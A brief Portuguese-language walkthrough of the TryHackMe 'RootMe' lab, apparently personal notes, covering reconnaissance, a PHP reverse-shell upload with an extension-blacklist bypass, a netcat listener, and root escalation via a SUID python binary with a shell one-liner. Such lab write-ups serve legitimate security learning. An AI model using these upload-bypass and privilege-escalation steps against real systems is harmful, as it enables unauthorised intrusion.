 # TryHackme - Rootme

[RootMe Room](https://tryhackme.com/room/rrootme)

### hangzou

1. **Reconhecimento**

   I. **Nmap Scan**
      - Portas
      - Serviços/Protocolos

   II. **Gobuster**
       - /panel/
       - /uploads/

2. **Shell Reverso**

   I. **PHP**
      - /usr/share/laudanum/php/php-reverse-shell.php
      - [Pentest Monkey PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

   II. **Blacklist Bypass**
      - .php3
      - .php4
      - .php5
      - .phtml

   III. **Netcat**
      - Endereço IP da Rede THM
      - nc -lvnp 4444
 
      > Solucionado com ajuda de Writeup

3. **Escalação de Privilégio**

   I. **Exploração de Permissão SUID**
      - /usr/bin/python 

      > Solucionado com ajuda de Writeup 

   II. **Python**
      - `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
 
   III. **Root**
      - `cd /root/`
      - `ls`
      - root.txt
      - `cat root.txt`

## Concluido!

Writeup Consultado:
 
[Infosec Writeup](https://infosecwriteups.com/tryhackme-rootme-ctf-walkthrough-detailed-a7c521df7339)

Observação:

Essa anotação é apenas um teste, que visa descrever meu passo a passo da resolução dos desafios do TryHackMe.
